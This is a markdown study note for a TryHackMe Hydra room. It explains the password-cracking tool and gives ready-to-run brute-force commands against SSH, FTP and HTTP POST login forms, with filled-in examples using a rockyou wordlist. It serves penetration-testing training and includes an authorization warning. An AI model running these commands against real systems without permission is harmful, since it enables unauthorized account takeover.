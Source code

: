 # Hydra ![Hydra](hydra.png)

[Room](https://tryhackme.com/room/hydra)

## What is Hydra?
Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.

Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

For more information on the options of each protocol in Hydra, you can check the [Kali Hydra tool page](https://en.kali.tools/?p=220).

This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use ```admin:password``` as the default login credentials, which is obviously not strong enough.

## Installing Hydra


Use the in-browser Kali machine, Hydra also comes pre-installed, as is the case with all Kali distributions. You can access it by selecting Use Kali Linux and clicking on Start Kali Linux button.

However, you can check its official repositories if you prefer to use another Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora system by executing ```apt install hydra ```or ```dnf install hydra```. Furthermore, you can download it from its official [THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).




# Hydra Commands 

A concise reference for using **Hydra** to brute-force services (SSH, FTP, and web forms). Examples below assume you run Hydra from a Linux shell and have proper authorization to test the target.

---

## Table of contents

- [SSH brute force](#ssh-brute-force)
- [FTP example](#ftp-example)
- [HTTP POST form brute force](#http-post-form-brute-force)
- [Common options](#common-options)
- [Tips & safety](#tips--safety)

---

## SSH brute force

Use this to brute force SSH logins when you know the username and have a password list.

```bash
hydra -l <username> -P <full/path/to/password_list.txt> <MACHINE_IP> -t 4 ssh
```

**Example**

```bash
hydra -l root -P /home/user/passwords.txt 10.0.0.5 -t 4 ssh
```

This will:

- Try username `root`.
- Try passwords line-by-line from `/home/user/passwords.txt`.
- Use 4 parallel threads.
- Target SSH on `10.0.0.5`.


## FTP example

A simple FTP example when the username is `user` and the password list is `passlist.txt`:

```bash
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

## HTTP POST form brute force

When the login form uses `POST`, you must tell Hydra the request path, the form field names, and a string that appears in the response when login fails.

General syntax:

```bash
sudo hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "<path>:<login_credentials>:<invalid_response>" -V
```

- `<path>` — path of the login endpoint (e.g., `/login.php` or `/`).
- `<login_credentials>` — e.g. `username=^USER^&password=^PASS^` where `^USER^` and `^PASS^` are placeholders.
- `<invalid_response>` — a string that appears only when login fails (Hydra uses this to detect failures).

**Concrete example**

If the login form is at the root `/` and the POST body uses `username` and `password` fields and fails with the string `F=incorrect`:

```bash
hydra -l <username> -P <wordlist> <MACHINE_IP> http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

**Example filled-in**

```bash
hydra -l admin -P /home/user/wordlists/rockyou.txt 10.0.0.5 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials" -V
```

Notes:
- Use your browser DevTools (Network tab) to inspect the exact POST body and failure response string.
- If fields are sent as JSON, or the site uses JavaScript-heavy requests (XHR/fetch), you will need to replicate that payload exactly or use another tool that can script the flow.


## Common options

| Option | Description |
|---|---|
| `-l` | Specify a single username (for services that accept a username) |
| `-L` | File containing multiple usernames (one per line) |
| `-P` | Password list file |
| `-p` | Single password |
| `-t` | Number of parallel tasks/threads |
| `-V` | Verbose: show every attempt |
| `-s` | Port number (if non-standard) |


## Tips & safety

- **Only test targets you are explicitly authorized to test.** Unauthorized brute forcing is illegal and unethical.
- Start with fewer threads (`-t 4`) to avoid overloading the target and to be less noisy.
- Use `-V` during testing to see each attempt, and remove it for quieter runs.
- For web forms, double-check the exact request format (field names, cookies, headers) with the browser DevTools.
- If the site uses CSRF tokens or dynamic tokens, Hydra might fail — consider programmatic approaches (e.g., custom scripts with `requests`/`curl`) that can fetch tokens per attemp



# Gobuster: The Basics








  
